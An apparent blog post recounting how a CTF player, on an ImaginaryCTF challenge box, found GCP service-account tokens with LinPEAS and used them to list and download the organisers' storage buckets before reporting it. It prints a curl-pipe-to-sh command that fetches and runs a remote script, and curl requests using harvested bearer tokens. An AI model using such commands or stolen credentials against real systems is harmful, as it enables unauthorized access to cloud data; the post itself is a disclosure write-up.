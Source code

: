 ```yaml
---
title: "How I (accidentally) hacked ImaginaryCTF infra"
date: 2023-07-23
description: "\"this is what i get for writing an instancer from scratch the day before the ctf\" - Eth007"
tags: [writeups, ctfs]
---
```


For this years ImaginaryCTF I played with my friends `les amateurs`. We ended up placing 12th out of 880 teams competing! There were lots of super interesting challenges and I look forward to competing next year.

# Background
Just for fun, I decided to look at the challenge `misc/obscured`

{{< zoom-img src="img/chall.png" >}}

When we initially connect to the challenge, it has us complete a Proof-of-Work which after completing gives us a box to SSH into. Once I realized I have no clue what I'm doing, I decided to run a powerful Linux enumeration script (very skid), LinPEAS ([github](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)). This tool does a variety of checks, specifically looking for possible privilege escalation vulnerabilities. Since the box had access to the internet, we could easily run a command to download and run the LinPEAS script.

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Running this script revealed some interesting information. Obviously it did reveal some information about the intended solution (polkit) but what really caught my eye the information it had gathered about the Google Cloud environment it was running in. It was able to find data such as the project ID, project SSH keys, and lots more. The juiciest part out of all of that was access tokens for the GCP service accounts.

{{< zoom-img src="img/service-accounts.png">}}

# GCP Enumeration

At first I was unsure if we could use the access tokens for anything. However, after a bit of research I realized we can use the access tokens to make API requests to get more information about the GCP project. And looking at the scopes we had access to, I decided to look at the GCP storage to see if this is something worth reporting.

Using the [GCP Storage JSON API documentation](https://cloud.google.com/storage/docs/json_api/v1) as a reference, I crafted the following request to list the available buckets.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b?project=[REDACTED]' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

Running this command revealed two buckets. To list the contents of the buckets, we could make the following cURL request.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b/[BUCKET ID]/o' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

One of them would end up being empty, however the other bucket would contain some pretty sensitive information. Each one of the object IDs looked something like this

`[REDACTED URL]/containers/images/sha256:[sha256 hash]/[some num]`

Noticing this I assumed this bucket contained all of the docker containers used for ImaginaryCTF. To double check, I tried downloading one of the files, and it just so happened that the file we downloaded **did** contain a flag.

# Conclusion
Once we found this, I immediately messaged one of the organizers telling him what I found and gave all the information he asked for. We ended up not using the flag we found (since you shouldn't do that) and the challenge went down for maintenance to get fixed.

Thank you to Eth007 for handling the situation very well and not DQ'ing our team for this! Once again, this was an amazing CTF and I have high hopes that next year this problem won't happen again!

# Funny Screenshots
{{< zoom-img src="img/funny.png" >}}
{{< zoom-img src="img/eth-dumb.png" >}}
{{< zoom-img src="img/lmao.png" >}}

